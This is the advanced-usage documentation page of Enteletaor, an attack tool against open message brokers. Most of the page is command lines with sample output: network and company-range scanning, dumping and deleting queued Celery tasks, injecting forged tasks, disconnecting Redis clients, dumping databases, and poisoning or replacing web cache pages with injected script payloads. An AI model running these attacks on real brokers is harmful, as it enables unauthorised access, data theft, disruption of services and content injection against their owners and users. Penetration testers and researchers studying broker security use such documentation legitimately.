 Advanced usage
==============

Enteleteaor implements many attacks and options to interact with different brokers:

    - Redis
    - RabbitMQ (of AMQP compabible)
    - ZeroMQ

Also implements some attacks specifics for Redis server. This document try to collect this information.

There are the 3 type actions implemented:

    - Scanning
    - Redis actions
    - Tasks actions


Scanner
-------

Enteleteaor implements a scanner to aims to detect open brokers. The scanning is implemented in pure python, with no external dependecies, like ``nmap``.

The reason to implement a native scanner si because in ``nmap`` v7 no all scripts that detects open services works.

.. note::

    You also can pass as target a hostname, not only and IP.

Custom ports
++++++++++++

As you can read in :doc:`quickstart` document, you can scan a single host or a network. Syntax is nmap-like.

You can specify other ports that enteleteaor default, using ``-p`` option:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10/16 -p 5550,5551

Parallel scanning
+++++++++++++++++

By default, enteleteaor runs 20 concurrent scanning. Internally it's implemented with greenlets threads. It means that are not "real" threads. You can think about greenlets thread as a lightweight version of threads.

We recommend can use 40 concurrent scanning threads. Don't worry for the overload of your system, green threads will made this possible without a hungry CPU process.

To change concurrency, you can use ``-c`` option:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10/24 -c 40

Saving results
++++++++++++++

Enteleteaor can export scan results as a JSON format, using ``--output`` option:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10 --output results

Or:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10 --output results.json

.. note::

    If you don't indicate the file extension, enteleteaor will add it for you.

Company lookup
++++++++++++++

This is a bit strange option. Typing ``-o`` enteleteaor will try to lookup the company name in RIPE, get all the IP ranges registered for it and add to scan.

For example, if you try to get scan ``google.com`` it will 1465 new host:

.. code-block:: bash

    # enteletaor -vvvv scan -t google.com -o

    [ * ] Starting Enteletaor execution
    [ * ]   -> Detected registered network '80.239.142.192/26'. Added for scan.
    [ * ]   -> Detected registered network '213.242.89.64/26'. Added for scan.
    [ * ]   -> Detected registered network '92.45.86.16/28'. Added for scan.
    [ * ]   -> Detected registered network '212.179.82.48/28'. Added for scan.
    [ * ]   -> Detected registered network '217.163.1.64/26'. Added for scan.
    [ * ]   -> Detected registered network '80.239.174.64/26'. Added for scan.
    [ * ]   -> Detected registered network '213.253.9.128/26'. Added for scan.
    [ * ]   -> Detected registered network '46.108.1.128/26'. Added for scan.
    [ * ]   -> Detected registered network '213.248.112.64/26'. Added for scan.
    [ * ]   -> Detected registered network '46.61.155.0/24'. Added for scan.
    [ * ]   -> Detected registered network '95.167.107.32/27'. Added for scan.
    [ * ]   -> Detected registered network '195.50.84.192/26'. Added for scan.
    [ * ]   -> Detected registered network '80.239.168.192/26'. Added for scan.
    [ * ]   -> Detected registered network '193.120.166.64/26'. Added for scan.
    [ * ]   -> Detected registered network '213.155.151.128/26'. Added for scan.
    [ * ]   -> Detected registered network '194.44.4.0/24'. Added for scan.
    [ * ]   -> Detected registered network '80.239.229.192/26'. Added for scan.
    [ * ]   -> Detected registered network '213.242.93.192/26'. Added for scan.
    [ * ]   -> Detected registered network '195.100.224.112/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.35.32/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.165.0/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.162.48/29'. Added for scan.
    [ * ]   - Number of targets to analyze: 1465
    [ * ]   - Starting scan
     ...

Tasks
-----

Currently you can do 4 sub-actions for tasks.

All of these actions are available only if broker is open. An open broker means that not credential are needed for connect to.

.. note::

    But.. what's a task? Oks, no problem, let's see:

    When we use a process manager to handle background tasks they use an external communication system. This communication system usually is a broker.

    The processes managers need this communication systems to send the information to be executed to the runner. Each runner is waiting for new information to process. and the broker permit delegate the exchange problems.

    So, we call this in information a ``pending task``. This ``task`` is really some information waiting in the broker to be send to the runner.

Listing remote tasks
++++++++++++++++++++

Basic usage
___________

If there are pending tasks in broker queue, we can analyze them. Enteleteaor allow us to list all tasks found. Although there is more than one task of each type in queue, only the task definition is displayed:

.. code-block:: bash

    # enteleteaor -v tasks list-tasks -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   - Remote process found:
    [ * ]      -> tasks.sum (param_0:int, param_1:int)
    [ * ]      -> tasks.send_mail (param_0:str, param_1:str, param_2:str)
    [ * ] Done!

We can see that broker has 2 task definition stored:

    - tasks.sum
    - tasks.send_mail

Export Template
_______________

Enteleteaor also permit inject new tasks to broker (see bellow). The way to inject them is to pass as input a JSON file with the information. Write this file must be a bit hard. To help us, enteleteaor can export a template.

With this template, we only must fill the appropriate field:

.. code-block:: bash
    :linenos:
    :emphasize-lines: 8

    # enteleteaor -v tasks list-task -t 10.10.0.10 -T my_template -F tasks.send_mail
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   - Remote process found:
    [ * ]      -> tasks.sum (param_0:int, param_1:int)
    [ * ]      -> tasks.send_mail (param_0:str, param_1:str, param_2:str)
    [ * ]   - Building template...
    [ * ]   - Template saved at: '/Users/Dani/Documents/Projects/enteletaor/enteletaor_lib/my_template.json'
    [ * ] Done!

    # cat my_template.json
    [{"parameters": [{"param_position": 0, "param_value": null, "param_type": "str"}, {"param_position": 1, "param_value": null, "param_type": "str"}, {"param_position": 2, "param_value": null, "param_type": "str"}], "function": "tasks.send_mail"}]

In this example only export the function ``tasks.send_mail``.

Removing tasks
++++++++++++++

We also can remove all pending task from the broker queue. It's so simple:

.. code-block:: bash

    # enteleteaor tasks remove -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]    - All tasks removed from '10.10.0.10'
    [ * ] Done!

Dumping tasks content
+++++++++++++++++++++

Basic usage
___________

We can dump the content of tasks simply using raw-dump sub-command:

.. code-block:: bash

    # enteleteaor tasks raw-dump -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.sum'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: 1
    [ * ]       -> P1: 0
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: marquerite@cordell.com
    [ * ]       -> P1: Can You Afford?
    [ * ]       -> P2: Axis alliance with Italy and Japan.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: amie@cordell.com
    [ * ]       -> P1: Read your review for John Mulaney You're missing out on points Not Cool, Guys DO NOT Commit These Instagram Atrocities
    [ * ]       -> P2: Molotov–Ribbentrop Pact of August 1939, Germany and subsequent declarations of war in Europe concluded with an invasion of Poland by Germany and the subsequent German unconditional surrender on 8 May 1945.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: willard@cordell.com
    [ * ]       -> P1: Wish What are our customers saying?
    [ * ]       -> P2: In June 1941, the European Axis powers and the coalition of the world.
    [ * ]     -> No more messages from server. Exiting...
    [ * ] Done!

Streaming mode
______________

Some time we could want to listen in real time new messages available in broker. If we use ``--streaming`` option, enteleteaor will wait for new messages:

.. code-block:: bash
    :linenos:
    :emphasize-lines: 17-20

    # enteleteaor tasks raw-dump -t 10.10.0.10 --streaming
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: aletha@cordell.com
    [ * ]       -> P1: Best of Groupon: The Deals That Make Us Proud (Unlike Our Nephew, Steve) Happy Birthday Lindsay - Surprise Inside!
    [ * ]       -> P2: Berlin by Soviet and Polish troops and the refusal of Japan to surrender under its terms, the United States dropped atomic bombs on the Eastern Front, the Allied invasion of Poland by Germany and the Axis.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: amie@cordell.com
    [ * ]       -> P1: Read your review for John Mulaney You're missing out on points Not Cool, Guys DO NOT Commit These Instagram Atrocities
    [ * ]       -> P2: Molotov–Ribbentrop Pact of August 1939, Germany and subsequent declarations of war in Europe concluded with an invasion of Poland by Germany and the subsequent German unconditional surrender on 8 May 1945.
    [ * ]       -> P2: In June 1941, the European Axis powers and the coalition of the world.
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..

Output file
___________

We can export results to CVS file using ``--output`` option. The reason to choose this format is because it permit real-time reading. In other words:

Imagine you want to put enteleteaor in streaming mode and, at the same time, put another process to read the information from export file, CSV allow this because each line is independent of others.

Enteleteaor store CVS as *append* mode, so it will not overwriting old file content:

.. code-block:: bash
        
    # enteleteaor tasks raw-dump -t 10.10.0.10 --streaming --output dumped_server_file

And, in other console, we can write:

.. code-block:: bash

    # tail -f dumped_server_file.csv

.. note::

    If not extension provided, enteleteaor automatically add .csv

Inject new tasks
++++++++++++++++

Finally, enteleteaor permit us to inject new tasks to the broker flow. The injection only accept one parameter: ``-f`` (``--function-file``).

This parameter need a JSON file as input with the function parameters. Do you remember `Export template`_ option of the list-tasks sub-command?

One we have the JSON file, we can inject the new process:

.. code-block:: bash

    # enteleteaor tasks inject -f my_template.json
    [ * ] Starting Enteletaor execution
    [ * ]   - Building process...
    [ * ]   - Trying to connect with server...
    [ * ]   - Sending processes to '10.10.0.10'
    [ * ]       1) tasks.send_mail
    [ * ] Done!



Redis
-----

Redis is a power full and versatile server. It can act as:

  - Key-value database
  - Broker
  - Cache
  - ...

So, it has it own command and actions:

Getting info
++++++++++++

This action was explained in :doc:`quickstart` document.

Listing connected users
+++++++++++++++++++++++

This action was explained in :doc:`quickstart` document.

Disconnecting users
+++++++++++++++++++

We not only can show all connected users, also can disconnect them. To do that we can use the sub-command ``disconnect``.

Disconnect one user
___________________

This command need as input the client to disconnect. Client must be as format: IP:PORT, as ``connected`` command displays.

.. code-block:: bash
    :linenos:
    :emphasize-lines: 7,13

    # enteleteaor redis connected -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Connected users to '10.10.0.10':
    [ * ]   - 10.10.0.2:52748 (DB: 0)
    [ * ]   - 10.10.0.2:52749 (DB: 0)
    [ * ]   - 10.10.0.2:52752 (DB: 0)
    [ * ]   - 127.0.0.1:42262 (DB: 0)
    [ * ]   - 10.10.0.2:51200 (DB: 0)
    [ * ] Done!

    # enteleteaor redis disconnect -t 10.10.0.10 -c 127.0.0.1:42262
    [ * ] Starting Enteletaor execution
    [ * ]   - Client '127.0.0.1:42264' was disconnected
    [ * ] Done!

Disconnect all users
____________________

If you want to disconnect all connected users, enteleteaor has the shortcut ``--all``:

.. code-block:: bash

    # enteleteaor redis disconnect -t 10.10.0.10 --all

Discovering DBs
+++++++++++++++

By default Redis has 16 databases, but you can add as many as you need. If the database used by the remote server is different to 0 (default database) and you need to discover them, you can use ``discover-dbs``:

.. code-block:: bash

    # enteleteaor redis discover-dbs -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Discovered '10.10.0.10' DBs at '16':
    [ * ]    - DB0 - 4 keys
    [ * ]    - DB1 - Empty
    [ * ]    - DB2 - Empty
    [ * ]    - DB3 - Empty
    [ * ]    - DB4 - Empty
    [ * ]    - DB5 - Empty
    [ * ]    - DB6 - Empty
    [ * ]    - DB7 - Empty
    [ * ]    - DB8 - Empty
    [ * ]    - DB9 - Empty
    [ * ]    - DB10 - Empty
    [ * ]    - DB11 - Empty
    [ * ]    - DB12 - Empty
    [ * ]    - DB13 - Empty
    [ * ]    - DB14 - Empty
    [ * ] Done!

Dumping information
+++++++++++++++++++

Basic usage
___________

One of more interesting thing is display information stored in redis and has the possibility to export it.

``dump`` sub-command permit that:

.. code-block:: bash

    # enteleteaor redis dump -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]     "b'unacked'":
    [ * ]     {
    [ * ]      "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'":
    [ * ]       {
    [ * ]         "content-encoding": "b'binary'"
    [ * ]         "properties":
    [ * ]          {
    [ * ]            "body_encoding": "b'base64'"
    [ * ]            "delivery_mode": "2"
    [ * ]            "delivery_info":
    [ * ]             {
    [ * ]               "priority": "0"
    [ * ]               "exchange": "b'celery'"
    [ * ]               "routing_key": "b'celery'"
    [ * ]             }
    [ * ]            "delivery_tag":
    [ * ]             {
    [ * ]            "delivery_tag": "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'"
    [ * ]          }
    [ * ]         "headers":
    [ * ]          {
    [ * ]          }
    [ * ]         "body":
    [ * ]          {
    [ * ]            "chord": "None"
    [ * ]            "retries": "0"
    [ * ]            "kwargs":
    [ * ]             {
    [ * ]             }
    [ * ]            "task": "b'tasks.send_mail'"
    [ * ]            "errbacks": "None"
    [ * ]            "taskset": "None"
    [ * ]            "timelimit": "(None, None)"
    [ * ]            "callbacks": "None"
    [ * ]            "eta": "None"
    [ * ]            "id":
    [ * ]             {
    [ * ]            "id": "b'8d772bd5-7f2c-4bef-bc74-aa582aaf0520'"
    [ * ]            "expires": "None"
    [ * ]            "utc": "True"
    [ * ]            "args": "('leatha@elidia.com', 'Guys DO NOT Commit These Instagram Atrocities 10 Engagement Tips to Gobble Over Thanksgiving Buffer has been hacked - here', 'Declaration by the Western Allies and the refusal of Japan to surrender under its terms, the United States emerged as an effort to end pre-war enmities and to create a common identity.')"
    [ * ]          }
    [ * ]         "content-type":
    [ * ]          {
    [ * ]         "content-type": "b'application/x-python-serialize'"
    [ * ]       }
    [ * ] Done!

Exporting results
_________________

Don't worry if above console output is a bit heavy, we can export results to a JSON file using ``-e`` (``--export-results``):

.. code-block:: bash

    # enteleteaor redis dump -t 10.10.0.10 -e dumped_info
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Storing information into 'results.json'
    [ * ]     "b'unacked'":
    [ * ]     {
    [ * ]      "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'":
    [ * ]       {
    [ * ]         "content-encoding": "b'binary'"
    [ * ]         "properties":
    [ * ]          {
    [ * ]            "body_encoding": "b'base64'"
    [ * ]            "delivery_mode": "2"
    [ * ]            "delivery_info":
    [ * ]             {
    [ * ]               "priority": "0"
    [ * ]               "exchange": "b'celery'"
    [ * ]               "routing_key": "b'celery'"
    [ * ]             }
    [ * ]            "delivery_tag":
    [ * ]             {
    [ * ]            "delivery_tag": "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'"
    [ * ]          }
    [ * ]         "headers":
    [ * ]          {
    [ * ]          }
    [ * ]         "body":
    [ * ]          {
    [ * ]            "chord": "None"
    [ * ]            "retries": "0"
    [ * ]            "kwargs":
    [ * ]             {
    [ * ]             }
    [ * ]            "task": "b'tasks.send_mail'"
    [ * ]            "errbacks": "None"
    [ * ]            "taskset": "None"
    [ * ]            "timelimit": "(None, None)"
    [ * ]            "callbacks": "None"
    [ * ]            "eta": "None"
    [ * ]            "id":
    [ * ]             {
    [ * ]            "id": "b'8d772bd5-7f2c-4bef-bc74-aa582aaf0520'"
    [ * ]            "expires": "None"
    [ * ]            "utc": "True"
    [ * ]            "args": "('leatha@elidia.com', 'Guys DO NOT Commit These Instagram Atrocities 10 Engagement Tips to Gobble Over Thanksgiving Buffer has been hacked - here', 'Declaration by the Western Allies and the refusal of Japan to surrender under its terms, the United States emerged as an effort to end pre-war enmities and to create a common identity.')"
    [ * ]          }
    [ * ]         "content-type":
    [ * ]          {
    [ * ]         "content-type": "b'application/x-python-serialize'"
    [ * ]       }
    [ * ] Done!

.. note::

    We don't need to put the extension .json to file. If extension is missing, enteleteaor will add it.

Hide screen output
__________________

If you don't want to display information into screen (useful when Redis contains a lot of information) using ``--no-screen`` option:

.. code-block:: bash

    # enteleteaor redis dump -t 10.10.0.10 -e dumped_info --no-screen
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Storing information into 'results.json'
    [ * ] Done!

Handling cache
++++++++++++++

Redis is commonly used as a centralized cache system. We can handle this cache stored in it.

Finding cache keys
__________________

First step is find possible cache keys in Redis. Enteleteaor has the option ``--search`` that will try to find this keys:

.. code-block:: bash

    # enteleteaor redis cache -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Looking for caches in '10.10.0.10'...
    [ * ]   - Possible cache found in key: b'flask_cache_view//'
    [ * ] Done!

Dumping all cache keys
______________________

If we want to dump, as raw-way, possible cache keys (not only locate) we omit the option ``--search``:

.. code-block:: bash

    # enteleteaor redis cache -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Listing cache information:
    [ * ]     -> Key: 'b'flask_cache_view//'' -
    [ * ]     -> Content:
         !X<!--
        Author: WebThemez
        Author URL: http://webthemez.com
        License: Creative Commons Attribution 3.0 Unported
        License URL: http://creativecommons.org/licenses/by/3.0/
        -->
        <!doctype html>
        <!--[if IE 7 ]>    <html lang="en-gb" class="isie ie7 oldie no-js"> <![endif]-->
        <!--[if IE 8 ]>    <html lang="en-gb" class="isie ie8 oldie no-js"> <![endif]-->
        <!--[if IE 9 ]>    <html lang="en-gb" class="isie ie9 no-js"> <![endif]-->
        <!--[if (gt IE 9)|!(IE)]><!-->
        <html lang="en-en" class="no-js">
        <!--<![endif]-->
        <head>
        ...

    [ * ] Done!

Dumping specific cache key
__________________________

We can dump only an specific key:

.. code-block:: bash

    # enteleteaor redis cache -t 10.10.0.10 --cache-key "flask_cache_view//"
    [ * ] Starting Enteletaor execution
    [ * ]   - Listing cache information:
    [ * ]     -> Key: 'b'flask_cache_view//'' -
    [ * ]     -> Content:
         !X<!--
        Author: WebThemez
        Author URL: http://webthemez.com
        License: Creative Commons Attribution 3.0 Unported
        License URL: http://creativecommons.org/licenses/by/3.0/
        -->
        <!doctype html>
        <!--[if IE 7 ]>    <html lang="en-gb" class="isie ie7 oldie no-js"> <![endif]-->
        <!--[if IE 8 ]>    <html lang="en-gb" class="isie ie8 oldie no-js"> <![endif]-->
        <!--[if IE 9 ]>    <html lang="en-gb" class="isie ie9 no-js"> <![endif]-->
        <!--[if (gt IE 9)|!(IE)]><!-->
        <html lang="en-en" class="no-js">
        <!--<![endif]-->
        <head>
        ...

    [ * ] Done!

Basic cache poisoning
_____________________

Enteleteaor permit us to poison the cache. To enable the cache we need to enable it with option ``-P``.

By default, enteleteaor will try to inject an HTML <script> tag with an alert message:

.. code-block:: bash
        
    # enteleteaor redis cache -P -t 10.10.0.1
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'flask_cache_view//' at server '10.10.0.10'
    [ * ] Done!

Custom cache poisoning with
___________________________

We can replace the default behavior adding a custom script code:

**Inline**:

Using ``--payload`` option. This option need a file with the script:

.. code-block:: bash

    # enteleteaor redis cache -P -t 10.10.0.10 --payload "<script>document.write('Say cheeeeers')</script>"
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'b'flask_cache_view//'' at server '10.10.0.10'
    [ * ] Done!

**Using file**:

.. code-block:: bash

    # echo "<script>document.write('Say cheeeeers')</script>" > my_payload.txt
    # enteleteaor redis cache -P -t 10.10.0.10 --file-payload my_payload.txt
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'b'flask_cache_view//'' at server '10.10.0.10'
    [ * ] Done!

Replace cache content
_____________________

Finally, we can replace entire content of cache key using option ``--replace-html``:

.. code-block:: bash

    # echo "<html><head><title>Replaced content</title></head><body><h1>Say cheeeeers again :)</h1></body></html>" > new_html.html
    # enteleteaor redis cache -P -t 10.10.0.10 --replace-html new_html.html
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'flask_cache_view//' at server '10.10.0.10'
    [ * ] Done!
